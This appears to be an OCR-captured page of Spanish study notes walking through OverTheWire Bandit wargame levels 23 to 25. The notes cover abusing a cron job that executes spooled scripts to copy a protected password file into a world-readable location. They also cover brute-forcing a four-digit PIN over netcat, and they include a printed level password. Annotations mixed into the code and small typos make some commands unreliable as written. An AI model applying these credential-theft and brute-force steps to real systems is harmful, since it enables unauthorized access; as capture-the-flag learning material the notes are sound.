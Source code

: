     #!/bin/bash
    myname=$(whoami)

    cd /var/spool/$myname/foo => OJO
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*; => ir iterando en cada nombre de cada archivo.
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)" => se queda con el propietario creador del archivo
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i => tarera aislada (ejecuta el archivo!!!)
            fi
            rm -f ./$i
        fi
    done

    cd /var/spool/bandit24/

    dir_name=$(mktemp -d)
    echo $dir_name => /tmp/tmp.btaQV4tx7d
    cd $dir_name => para ahorrarse de escribir anterior!!!! MAS COMODO  

    nano script.sh
    chmod +x script.sh
    chmod o+wx /tmp/tmp.btaQV4tx7d/
    '''
    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/tmp.btaQV4tx7d/bandit24_password.org
    chmod o+r /tmp/tmp.btaQV4tx7d/bandit24_password.org
    '''
    cp script.sh /var/spool/bandit24/foo/example
    watch -n 1 ls -l

# Un demonio está escuchando en el puerto 30002 y te dará la contraseña de bandit25 si recibes la contraseña de bandit24 y un código PIN secreto de 4 dígitos. No hay forma de recuperar el código PIN excepto revisando las 10 000 combinaciones, lo que se conoce como fuerza bruta.
## No es necesario crear nuevas conexiones cada vez.
__Fuerza bruta aplicada a conexiones__
    for pin in {0000..9999}; do echo "0Zf11ioIjMVN551jX3CmStKLYqjk54Ga $pin"; done

    dir_name=$(mktemp -d)
    cd $dir_name
    for pin in {0000..9999}; do echo "0Zf11ioIjMVN551jX3CmStKLYqjk54Ga $pin"; done > combinations.txt

    cat combinatios.txt | nc localhost 30002 | grep -vE "Wrong|Pleace Enter"
        -V DICE QUE TODO LO QUE TENGA ESTA CADENA SE IGNORA!
     Y te entrega la pass!!!
